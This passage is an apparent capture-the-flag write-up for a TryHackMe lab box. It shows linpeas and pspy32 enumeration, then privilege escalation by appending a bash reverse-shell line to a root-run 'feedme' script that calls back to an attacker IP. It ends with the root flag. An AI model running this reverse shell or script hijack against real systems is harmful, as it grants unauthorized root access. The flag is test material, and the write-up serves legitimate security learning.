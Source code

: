 How about we run linpeas.sh. First grab the file with a python http server and then chmod to execute

**Results:**
```
Vulnerable to CVE-2021-3560
```

I downloaded the vulnerability and ran it. Nope. it just hung. I'm not having much luck with this box!

### Look from crontabs

Next I'll download pspy32 and see if anything pops up. I used the same process of creating a http.server and pulling the file. chmod +x

**Results:**
```
2025/07/07 23:13:49 CMD: UID=0     PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2025/07/07 23:14:00 CMD: UID=0     PID=156386 | (feedme) 
2025/07/07 23:14:34 CMD: UID=0     PID=156387 | /usr/bin/amazon-ssm-agent 
```

Feedme? That looks interesting. Where is it?

```bash
find / -type f -name *feedme* 2>/dev/null

/usr/bin/feedme
/etc/systemd/system/feedme.timer
/etc/systemd/system/feedme.service

cat /usr/bin/feedme
```
**Results:**
```
#!/bin/bash

# This is weird?
```

Ok. That looks like our plan. Let's just add a reverse shell. but first lets setup a reverse shell with nc -nlvp 9999 on our attacker box


```bash
echo "bash -i >& /dev/tcp/10.6.57.243/9999 0>&1" >> feedme
```

waiting, waiting. We're root!

```bash
cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

**Q. What is the root.txt flag?
A. THM{Ollie_Luvs_Chicken_Fries}
